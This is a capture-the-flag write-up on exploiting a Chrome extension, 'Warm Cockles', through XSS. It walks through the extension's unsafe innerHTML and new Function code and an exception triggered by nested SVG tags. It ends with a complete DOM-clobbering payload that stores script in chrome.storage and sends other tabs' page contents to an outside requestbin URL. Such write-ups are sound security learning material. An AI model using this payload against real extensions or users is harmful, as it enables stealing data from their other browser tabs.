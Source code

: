 # Warm Cockles
## 1000 Points // 2 Solves
![daddy jamus](https://i.imgur.com/wqlIMrP.gif)

_An extension for Jamus Lim, which warms the cockles of our hearts._

_I really hope you like cockles, because there's gonna be a ton in this extension. But [LHL says mee siam mai hum](https://www.youtube.com/watch?v=k4xrmNEp-Mo), maybe there's more to the cockles than meets the eye. Maybe you can steal information from other tabs. You may not wish to install this on your main browser, **unless you really like cockles**._

_Visit [this website](http://warm-cockles.chals.ctf.sg:30401), and maybe you too can warm the cockles of our hearts. The bot only stays on the page for 1 second. You better be fast._

_Free char kway teow (with cockles) via foodpanda for the team who first bloods this challenge. PM [redacted] once you get the first blood._

_Author: waituck_

_didn't get the free char kway teow, very sad_

### Hints
- XSS
- There are several contexts in which you need to perform XSS. You need to exploit them all.
- ``dataset`` seems awfully empty for a dataset... maybe there was another reason why it was chosen

_You can access a our instance of the challenge here: http://de.irscybersec.tk:13337_

# Solution

## First Look
We know that this is a Chrome extension, so the first thing we need to do is install it. To install Google Chrome,
1. Navigate to https://chrome.com
2. Depending on whether you like being watched, turn on or off the checkmark to send telemetry data to Google
	* Note that this probably does not do anything anyways, resistance is futile
3. Click the Download button, or the translation of that in your preferred language
4. Double click (use the Mouse to click on the Icon two times in rapid succession) on the installer
5. Wait for the progress bar to reach completion
6. You now have Google Chrome installed

You can now decide that I'm an idiot and go to chrome://extensions, enable developer mode, and drag-and-drop the ``extensions`` folder into the window. The purpose of the extension should be very obvious the instant we go to a different website:

![Wow!! All the cockles](first-look.png)
_The extension converts any image found on the website to show a picture of warm cockles. 10/10 would install 5 star review, still have it installed till this day_

This writeup will go over how to solve this challenge, and a few ways to debug Chrome extensions on the way.

## Peering into the Code™
### Server
The server in this case is pretty simple: it visits our page on ``/visit``, and there is a flag endpoint on a different port (``http://localhost:12345/hfqewfhq9hfeqe08fh9qwe8qw89r7098237q4589yuqowiearhfoaisdfaidlfh89ewry43.html``). However, before going to ``/visit``, the browser  opens the flag page in a different tab. Our objective, as stated, is to exfiltrate data from this page. Given that one of the hints was that it was an XSS attack, we most likely need to perform an XSS attack.

### Extension
This is where the vulnerability lies. We can see where the XSS will probably occur right off the bat in ``contentScript.js``:
```js
chrome.storage.onChanged.addListener(function(changes, namespace) {
	console.log(changes)
	var storageChange = changes.count;
	h1.innerHTML =  `Jamus Lim has served ${storageChange.newValue} warm cockles so far!`
});
```
Whenever an entry is updated in the Chrome extension storage API, an event that updates the total count on each page, which is unfiltered, is updated. This gives the very obvious attack vector of updating ``count`` in ``chrome.storage``.

Investigating further, we see that the value is only written to in line 60, to ``count``. Unfortunately, it was quickly determined that this was not a possible attack as ``count`` was only updated by the code itself by ``++``. This isn't Defcon so we will not be going into how to break V8 today.

Hence, we need to find another way to set the value, likely by RCE (is it RCE if I execute code locally?). JavaScript RCE usually occurs with ``eval`` or something similar, and here we have:

```js
catch (err) {
	// do something about the error in debug mode
	if (typeof debug !== "undefined") {
		new Function('return ' + debug.dataset.print)()(err)
		document.location = debug.dataset.cockles ? debug.dataset.cockles : "https://www.asiaone.com/sites/default/files/styles/a1_600x316/public/original_images/Jul2020/200708_jamus_facebook.jpg?h=c9f93661&itok=KFRKR2k2";
	} else {
		console.log(err);
	}
}
```

The ``new Function()`` block is vulnerable! We can control ``debug.dataset.print`` (next paragraph), so all we need to do is write a payload that sets this to ``chrome.storage.sync.set({count: `<XSS PAYLOAD>`});``. This would trigger the ``chrome.storage`` update event, leading to the XSS being written to the page.

How we control ``debug.dataset.print`` was given to us in a hint - the name ``dataset`` was not a random name, and was specially chosen for this challenge. The ``dataset`` property is used to access certain attributes in HTML attributes, [those beginning with ``data``](https://developer.mozilla.org/en-US/docs/Web/API/HTMLOrForeignElement/dataset). Using [Named Access on the ``window`` Object](https://html.spec.whatwg.org/multipage/window-object.html#named-access-on-the-window-object), we can create an element with ``id=debug`` and ``data-print=<XSS PAYLOAD>``. This part of the challenge is heavily based on existing web programming knowledge.

Unfortunately, there is one more hurdle to cross: the ``catch`` block is only run in an exception - how can we trigger an exception?

### Causing an Exception
To me, the code that stood out to me the most was:

```javascript
// get all <svg> tags
var svgs = document.getElementsByTagName("svg");
for(var i=0, l=svgs.length;i<l;i++) {
	svgs[i].innerHTML = `<image href="${cockles}" width="100%"/>`;
	svgs[i].setAttribute("preserveAspectRatio", "none");
	c += 1;
}

// get all <image> tags
var images = document.getElementsByTagName("image");
for(var i=0, l=svgs.length;i<l;i++) {
	images[i].href = cockles;
	c += 1;
}
```

The other loops were all programmed with the condition ``l<itself``, whereas this is with ``l<somethingelse``. This leads to the conclusion that if somehow, there were fewer ``<image>`` tags than ``<svg>`` tags, we could cause an exception when ``href`` of ``undefined`` is set.

However, how could there be fewer ``<image>`` than ``<svg>``s, when the content of each ``<svg>`` is set to have an ``<image>`` first?

My brain is wired to be stupid and I thought: what if I could delete the ``<svg>`` tag before we reach the for loop? Unfortunately for me, we were no longer stuck in the i386 days and computers were slightly faster than to allow that to cause a race condition. I tried setIntervals to find and delete any ``<image>`` tags, and MutationObservers, pitting two observers against each other. In both instancess, this led to the observer firing and the ``<image>`` tags being added back into the ``<svg>`` tags, which would then result in me deleting them again, and so on. Eventually, some of them did manage to set the XSS payload, but I always hit ``MAX_WRITE_OPERATIONS_PER_MINUTE``, meaning that Chrome did not allow me to write anything else to ``chrome.storage``.

Fortunately, there is a much more reliable and elegant way of causing an exception. ``<svg><image><svg></svg></image></svg>`` would be counted as 2 SVG elements existing, yet after the ``innerHTML`` of both are set, there will only be one ``<image>`` tag created, as the inner ``<svg>`` tag is overwritten. This means that the extension tries to set ``images[1].href`` even though ``images.length = 1``, causing an exception

### Payload
Now, all that's left is to write an XSS payload:
```html
<svg><image><svg></svg></image></svg> <!-- raise exception -->
<div id=debug data-print='_ => {document.body.innerHTML = ""; const a = "`https://requestbin.io/vy7m0ovy/?${document.body.innerHTML}`"; chrome.storage.sync.set({count: `<video src=qwer onerror="fetch(${a})">`}); document.location="http://127.0.0.1:12345/hfqewfhq9hfeqe08fh9qwe8qw89r7098237q4589yuqowiearhfoaisdfaidlfh89ewry43.html"}'</div>
```

Expanding the JavaScript:
```js
document.body.innerHTML = ""; // i think this prevented the infinite loop somehow?
const a = "`https://requestbin.io/vy7m0ovy/?${document.body.innerHTML}`"; // send the innerHTML of every page on which this executes to our bin, which would include the flag page
chrome.storage.sync.set({count: `<video src=qwer onerror="fetch(${a})">`}); // XSS payload - <script> cannot be used directly as innerHTML does not execute scripts
document.location="http://127.0.0.1:12345/hfqewfhq9hfeqe08fh9qwe8qw89r7098237q4589yuqowiearhfoaisdfaidlfh89ewry43.html" // redirect to flag page immediately after updating to prevent an infinite loop from forming
```

The flag will then be sent to the request bin.

# Flag
CTFSG{warm_cockles_now_become_cold_alr_lol}
